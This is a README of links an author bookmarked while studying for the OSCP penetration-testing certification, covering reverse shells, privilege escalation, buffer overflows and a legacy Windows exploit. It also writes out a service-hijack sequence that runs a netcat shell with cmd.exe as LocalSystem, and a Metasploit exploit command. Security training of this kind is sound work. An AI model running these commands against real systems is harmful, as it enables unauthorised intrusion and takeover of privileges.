 # OSCP
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!
 ** Most of my links were SPOLIERS :P !!!**
                                            

#Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

  sc qc upnphost
  sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
  sc config upnphost obj= ".\LocalSystem" password= ""
  sc qc upnphost
  net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
#Buffer Overflow 

 #For Practicing
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# Port 135
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/
  
  > use exploit/windows/dcerpc/ms03_026_dcom
